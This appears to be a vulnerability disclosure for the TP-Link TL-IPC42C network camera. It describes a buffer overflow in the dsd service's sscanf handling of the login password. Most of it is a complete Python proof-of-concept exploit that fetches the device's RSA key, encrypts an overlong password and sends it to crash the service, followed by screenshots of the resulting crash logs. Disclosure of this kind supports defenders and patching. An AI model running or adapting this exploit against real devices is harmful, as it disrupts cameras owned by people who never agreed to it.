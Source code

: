 ## TP-Link TL-IPC42C buffer overflow

vendor name:TP-Link

model:TL-IPC42C

version: V4.0_20211227_1.0.16

firmware download:https://security.tp-link.com.cn/service/detail_download_9856.html

![be706d3e43a3253c6495d6b797a28f1](https://github.com/user-attachments/assets/c5849e20-ce46-4e01-a734-94dbcb0c35f4)


![image](https://github.com/user-attachments/assets/230069a0-7220-42ff-8474-c424fb249503)


TP-Link TL-IPC42C is a network camera produced by TP-Link. Due to the lax management of buffer size, a buffer overflow vulnerability was discovered.



#### Vul 


The vulnerability exists in the `sub_28958` function of `dsd`

![image](https://github.com/user-attachments/assets/7acc3ce3-6735-4413-9c4b-e50fe02e81c0)


Here we can see that the target buffer of the sscanf function is too small, so there is a possibility of buffer overflow.

![image](https://github.com/user-attachments/assets/e0303a2f-3e0a-4c73-b4a9-ebba64834b8a)


The value of the v12 variable in sscanf comes from v6, which in turn comes from the password obtained from HTTP JSON. When the password is constructed long enough, it can overflow its buffer.
But after receiving the password, the function here will call private_decrypt to decrypt the password. From the decryption function name, it is likely that the password has been encrypted with a public key password.
Through web capture analysis, it was found that before sending a formal request, a request is first sent to obtain the RSA public key. The interface used is user_management, and the parameter is get_incrypt_info.



#### **exp**

```
import requests
import urllib.parse
from Crypto import Random
from Crypto.Hash import SHA
from Crypto.Cipher import PKCS1_v1_5 as Cipher_pkcs1_v1_5
from Crypto.Signature import PKCS1_v1_5 as Signature_pkcs1_v1_5
from Crypto.PublicKey import RSA
import base64
from pwn import *

ip = ""
port = 80
stok = ""   # set a valid stok value here!

headers = {"Accept":"application/json, text/javascript, */*; q=0.01",\
               "X-Requested-With":"XMLHttpRequest",\
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36",\
               "Content-Type":"application/json; charset=UTF-8",\
               "Accept-Encoding":"gzip, deflate",\
               "Accept-Language":"zh-CN,zh;q=0.9",\
               "Connection":"close" }

def rsa_encrypt(key, p):
    rsakey = RSA.importKey(key)
    cipher = Cipher_pkcs1_v1_5.new(rsakey)
    p=p.encode('utf-8')
    cipher_text = base64.b64encode(cipher.encrypt(p))
    return cipher_text


def get_public_key(ip, port):
    url = "http://" + ip + "/stok=" + stok + "/ds"
    data = r'{"user_management":{"get_encrypt_info":{}},"method":"do"}'
    res = requests.post(url, headers=headers, data=data)
    public_key = res.content[40:-41]
    public_key = public_key.decode('utf-8')
    return urllib.parse.unquote(public_key)
    
def exploit(ip, port):
    url = "http://" + ip + "/stok=" + stok + "/ds"
    public_key = "-----BEGIN PUBLIC KEY-----\n" + get_public_key(ip, port) + "\n-----END PUBLIC KEY-----"
    password = rsa_encrypt(public_key, "a" * (0x60)).decode('utf-8')
    data = r'{"user_management":{"check_user_info":{"username":"admin","password":"' + password +r'","encrypt_type":"2"}},"method":"do"}'
    res = ""
    try:
        res = requests.post(url, data=data, headers=headers,timeout=3)
    except Exception as e:
        print("[*] Success!")
        print(e)
        return 1
    print("[-] Failed!")
    print(res.content)
    return 0

if __name__ == "__main__":
    res = exploit(ip, port)
```

![image](https://github.com/user-attachments/assets/1b847a48-e785-4ab8-a0e4-5853641c5d59)


![image](https://github.com/user-attachments/assets/0281a3a6-907c-4045-9592-f72aeee6c381)


In the logs of the management interface, it can be seen that the dsd service has experienced several crashes. 

![image](https://github.com/user-attachments/assets/fc4f14d8-24d0-4710-a90d-d36580759599)




